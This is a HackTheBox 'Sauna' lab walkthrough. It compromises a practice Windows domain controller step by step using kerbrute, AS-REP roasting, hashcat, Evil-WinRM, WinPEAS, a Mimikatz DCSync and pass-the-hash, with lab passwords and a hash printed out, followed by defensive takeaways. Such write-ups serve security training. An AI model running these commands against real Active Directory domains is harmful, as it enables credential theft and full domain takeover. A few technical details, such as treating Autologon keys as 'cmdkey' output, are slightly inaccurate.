

# Sauna — HackTheBox Walkthrough

**Platform:** HackTheBox
**Difficulty:** Easy
**OS:** Windows

---

## TL;DR

Enumerating the web application reveals a list of employee names → Generating a custom wordlist of potential usernames and validating them using `kerbrute` identifies `fsmith` as a valid user → AS-REP Roasting `fsmith` yields a crackable ticket Hash (`fsmith:Thestrokes23`) → WinRM access as `fsmith` → Running WinPEAS reveals Autologon credentials for `svc_loanmgr` (`Moneymakestheworldgoround!`) → Bloodhound enumeration shows `svc_loanmgr` has DCSync (`GetChangesAll`) privileges → Running Mimikatz to DCSync the Administrator hash allows for a Pass-the-Hash attack to gain `SYSTEM` access.

---

## Enumeration

Full nmap scan:

```bash
nmap -sC -sV -p- -n -Pn 10.10.10.175
```

**Open Ports:**
| Port | Service | Version |
|------|---------|---------|
| 53 | DNS | Simple DNS Plus |
| 80 | HTTP | Microsoft IIS httpd 10.0 |
| 88 | Kerberos | Microsoft Windows Kerberos |
| 135 | RPC | Microsoft Windows RPC |
| 139 | NetBIOS | Microsoft Windows netbios-ssn |
| 389 | LDAP | Microsoft Windows AD LDAP (Domain: EGOTISTICAL-BANK.LOCAL) |
| 445 | SMB | microsoft-ds |
| 464 | kpasswd | kpasswd5 |
| 593 | RPC over HTTP| Microsoft Windows RPC over HTTP 1.0 |
| 636 | LDAP (SSL)| tcpwrapped |
| 3268 | Global Cat.| Microsoft Windows AD LDAP |
| 3269 | Global Cat.| tcpwrapped |
| 5985 | WinRM | Microsoft HTTPAPI httpd 2.0 |

The target is a Domain Controller for `EGOTISTICAL-BANK.LOCAL`.
We add `egotistical-bank.local` to our `/etc/hosts` file.

Testing SMB for anonymous access reveals we can authenticate but cannot list any shares. 
We shift focus to the web server on Port 80, which hosts the "Egotistical Bank" website.

Browsing the `about.html` page, we find a list of employee names:
- Fergus Smith
- Shaun Coins 
- Sophie Driver 
- Bowie Taylor 
- Hugo Bear 
- Steven Kerb

Using this list, we generate a custom wordlist of potential Active Directory usernames using common naming conventions (e.g., `First.Last`, `FLast`, `F.Last`):

```text
Fergus.Smith
Shaun.Coins
Sophie.Driver
Bowie.Taylor
Hugo.Bear
Steven.Kerb
Hugo.Smith
FSmith
SCoins
SDriver
BTaylor
HBear
SKerb
HSmith
F.Smith
S.Coins
S.Driver
B.Taylor
H.Bear
S.Kerb
H.Smith
```

We validate these potential usernames against the Domain Controller using `kerbrute`:

```bash
./kerbrute_linux_amd64 userenum --dc 10.10.10.175 username.txt -d EGOTISTICAL-BANK.LOCAL
```

Kerbrute identifies two valid Active Directory users:
- `FSmith@EGOTISTICAL-BANK.LOCAL`
- `HSmith@EGOTISTICAL-BANK.LOCAL`

---

## Exploitation — AS-REP Roasting & WinRM

With valid usernames confirmed, we check if either user is vulnerable to AS-REP Roasting. This vulnerability exists when a user account has the "Do not require Kerberos preauthentication" property enabled, allowing any unauthenticated user to request an AS-REP ticket for the account and attempt to crack it offline.

We use Impacket's `GetNPUsers.py`:

```bash
impacket-GetNPUsers -dc-ip 10.10.10.175 -request EGOTISTICAL-BANK.LOCAL/fsmith
```

The Domain Controller responds with a valid AS-REP ticket (Hashcat format `$krb5asrep$23`) for the `fsmith` user!

We crack the ticket using Hashcat and the RockYou wordlist:

```bash
hashcat -m 18200 fsmith_asrep.hash /usr/share/wordlists/rockyou.txt --force
```

The password cracks successfully: `fsmith : Thestrokes23`.

Because port 5985 is open, we can authenticate directly to the machine via Evil-WinRM using our new credentials:

```bash
evil-winrm -i 10.10.10.175 -u fsmith -p 'Thestrokes23'
```

We have user access.

---

## Privilege Escalation — DCSync (Mimikatz)

Once authenticated as `fsmith`, we run WinPEAS (`winpeas.exe`) to automate the enumeration of local privilege escalation vectors.

WinPEAS output highlights a set of credentials stored in the Windows Credential Manager or Autologon registry keys (`cmdkey /list`):

```text
svc_loanmgr : Moneymakestheworldgoround!
```

We now have lateral movement capabilities to the `svc_loanmgr` account.

To understand the privileges held by `svc_loanmgr` within the wider Active Directory environment, we run Bloodhound (SharpHound.exe) and analyze the output in the Bloodhound GUI.

The Bloodhound graph reveals a critical vulnerability: The `svc_loanmgr` account possesses the `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All` rights over the domain.



This specific combination of permissions grants the account the ability to perform a **DCSync attack**. DCSync is a technique where an attacker impersonates a Domain Controller to request password hashes for any user in the domain directly from the central database, without needing to execute code on the Domain Controller itself.

We authenticate to the target as `svc_loanmgr` (or use `runas` from our current WinRM session) and execute Mimikatz to perform the DCSync attack, targeting the built-in Administrator account:

```powershell
.\mimikatz.exe "lsadump::dcsync /domain:EGOTISTICAL-BANK.LOCAL /user:administrator" exit
```

Mimikatz successfully extracts the NTLM hash of the Domain Admin:

```text
Credentials:
  Hash NTLM: 823452073d75b9d1cf70ebdf86c7f98e
```

We use Evil-WinRM to perform a Pass-the-Hash (PtH) attack, authenticating as the Administrator using the extracted NTLM hash instead of a password:

```bash
evil-winrm -i 10.10.10.175 -u administrator -H 823452073d75b9d1cf70ebdf86c7f98e
```

We are `NT AUTHORITY\SYSTEM`. **Root.** 🎉

---

## Key Takeaways

- **Pre-Authentication Not Required:** Enabling `Do not require Kerberos preauthentication` on user accounts allows anyone to trivially request crackable ticket-granting tickets. This setting should essentially never be used in a modern AD environment.
- **Over-Permissive Service Accounts:** Granting `Replicating Directory Changes All` to service accounts (`svc_loanmgr`) exposes the entire domain to catastrophic DCSync attacks. Domain sync privileges should strictly be reserved for actual Domain Controllers or tightly controlled synchronization software (like Azure AD Connect).
- **Cleartext Credentials in Credential Manager:** Storing plaintext passwords in the Windows Credential Manager (`cmdkey /list`) allows any compromised user on that machine to instantly retrieve them and move laterally. 

---

*Thanks for reading! Follow for more HackTheBox walkthrough content.*